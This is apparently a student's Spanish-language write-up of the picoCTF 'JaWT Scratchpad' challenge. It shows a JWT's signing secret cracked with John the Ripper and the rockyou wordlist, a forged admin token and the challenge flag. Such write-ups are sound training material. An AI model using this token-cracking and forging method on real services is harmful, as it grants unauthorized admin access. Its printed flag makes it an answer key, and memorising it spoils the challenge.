 # JaWT Scratchpad

---
## Objectivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

---
## Solución
``` bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiamhvbiJ9.lr8H-UFIddII1j9EDm-UsxlnteU-jZhShY2heQnMrq0

angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp/jwt2jtr$ python jwt2jtr.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiamhvbiJ9.lr8H-UFIddII1j9EDm-UsxlnteU-jZhShY2heQnMrq0 > code.hash
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp/jwt2jtr$ 
john code.hash --wordlist=/home/angel/Descargas/rockyou.txt

ilovepico

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s

picoCTF{jawt_was_just_what_you_thought_44c752f5}


```

### `picoCTF{jawt_was_just_what_you_thought_44c752f5}`

---
## Notas adicionales

JSON Web Token
Es un estándar abierto basado en JSON propuesto por IETF (RFC 7519) para la creación de tokens de acceso que permiten la propagación de identidad y privilegios 

python jwt2jtr.py  -- Genera un código hash que pude ser utilizado con jhon

Después de obtener la clave secreta, podemos usarla para firmar un token e intentar obtener acceso como administrador.

-En la pagína se cambia el usuario a "admin" y se agrega la contrasña "ilovepico"


---
## Referencias

https://jwt.io/

https://infosecwriteups.com/jawt-scratchpad-picoctf-93766d81fd8e